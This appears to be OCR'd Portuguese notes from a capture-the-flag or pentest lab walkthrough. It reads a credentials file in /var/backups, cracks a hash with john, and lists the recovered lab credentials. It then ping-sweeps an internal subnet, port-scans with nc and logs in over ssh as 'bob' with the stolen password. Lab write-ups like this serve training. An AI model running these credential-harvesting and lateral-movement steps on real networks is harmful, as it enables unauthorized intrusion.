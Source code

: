 utiliza o comando:

cd /var/backups

cat creds.txt

hash: 

john hash.txt

# Credenciais

Acesso do administrador:
admin
senhafoda

Encontro de mais um acesso:
bob
123456

# Aumentando privilégios

## Achando ips

ifconfig

exemplo, 10.20.20.1
10.20.20.2

... e vai alternando até 256

## Verificando os pins, para tentar achar alguma máquina para escalar privilégio - usando bashscript

// pegando apenas os ips ativos na rede
for i in {1..254}; do (ping -c 1 10.20.20.$i | grep "64 bytes" &); done

64 bytes from 10.20.20.1: icmp_seq=1 ttl=64 time=0.048 ms
64 bytes from 10.20.20.2: icmp_seq=1 ttl=64 time=0.025 ms
64 bytes from 10.20.20.3: icmp_seq=1 ttl=64 time=0.100 ms // maquina nova
64 bytes from 10.20.20.156: icmp_seq=1 ttl=64 time=0.120 ms

## Busca de portas

nc -w 1 -zv 10.20.20.3 1-500

bancocn-lab-post.bancocn_internal_network [10.20.20.3] 22 (ssh) open

// mostra que a porta 22 está aberta e é uma máquina também, que é possivelmente do bob

## Acessando o usuário - logando com o ssh

ssh bob@10.20.20.3
usa a senha: 123456
